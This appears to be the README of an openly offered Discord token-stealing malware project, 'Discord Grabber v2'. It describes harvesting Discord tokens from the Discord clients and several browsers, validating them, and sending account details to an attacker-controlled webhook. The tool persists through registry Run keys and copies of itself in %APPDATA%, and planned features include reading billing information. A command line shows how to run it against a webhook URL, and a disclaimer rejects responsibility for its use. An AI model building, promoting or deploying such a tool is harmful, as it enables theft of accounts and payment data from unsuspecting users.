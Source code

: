 # Discord Grabber v2

Discord Grabber v2 is the second version of a discord token logger, improvements from the previous version are:

- Checks whether or not the token is valid
- Provides information regarding the account
- Has a minimum amount of persistence (namely moving itself to %APPDATA% and placing itself in the Run directory of the registry

## Features
Current features include:

- Send information via discord webhook (Embed)
- Checks for Discord (Canary, PTB) tokens, Google Chrome, Brave Browser, Yandex Browser and Opera Browser
- Checks whether the token(s) is valid before sending it to avoid disabled tokens flooding the webhook
- Persists in registry (Run, RunOnce, RunServices, RunServicesOnce)
- Copies itself into %APPDATA% every time it runs (under a random UUID)

## WIP
- Send normal webhook messages (not embed)
- Check whether or not discord account has nitro
- Check the billing information (if nitro is present)


## Usage

The idea is to edit the source code yourself, edit the settings, and add the webhook. The release version  can be used but the settings can not be changed, and the webhook has to be passed as the first and only argument

```java -jar <filename>.jar https://discord.com/api/webhooks/id/token```

## Contributing
You may do with this code whatever you want, I would appreciate suggestions or if you tell me what you change, but it is not needed.

## Disclaimer
I am in no way responsible for what you do using my program/code.

## Example

![Example output](https://raw.githubusercontent.com/Xefer-0/DiscordGrabber/master/ss.png)
